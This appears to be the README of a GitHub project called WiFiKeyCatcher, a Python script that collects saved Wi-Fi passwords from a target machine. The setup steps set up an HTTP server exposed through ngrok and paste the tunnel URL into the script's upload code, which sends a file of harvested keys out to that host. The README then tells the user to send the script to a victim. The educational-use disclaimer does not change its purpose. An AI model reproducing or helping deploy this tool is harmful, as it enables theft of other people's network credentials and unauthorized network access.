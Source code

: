 <p align="center">
  <img src="https://logos-world.net/wp-content/uploads/2022/03/Wi-Fi-Logo.png"/>
</p>
 <h3><p align="center">
    ⚠️ Disclaimer: This repository is intended for educational purposes exclusively. I bear no responsibility for any illicit or unauthorized use of this project.
</p></h3>
</p>
<p align="center">
  <img src="https://img.shields.io/badge/Version-1.0.0-green" alt=""/>
  <img src="https://img.shields.io/badge/Written in-Python-blue" alt=""/>
  <img src="https://img.shields.io/badge/Author-Ibn Aleem-red" alt=""/>
</p>

# Setup
1. Clone this repository:
```
$ git clone https://github.com/ibnaleem/WiFiKeyCatcher.git
```
2. Run `HTTPServer`:
```
$ py -m http.server
```
3. [Install ngrok](https://ngrok.com/download)
4. Configure auth-token in terminal:
```
$ ngrok config add-authtoken <token>
```
5. Start tunnel on port 8000:
```
$ ngrok http 8000
```
If successful, you should see all of your system directories as embeded links.

6. Copy ngrok URL and paste into `main.py` (line 52):
```python
url = "https://ngrok-url-here"
files = {'file': open(f'{curr_path}.txt', 'rb')}
```

Save and send to victim. Note: ngrok must be running to obtain WiFi-Keys

#### Target Ran Script, Nothing Received
Make sure your target has Python installed, and you're running HTTP server + ngrok
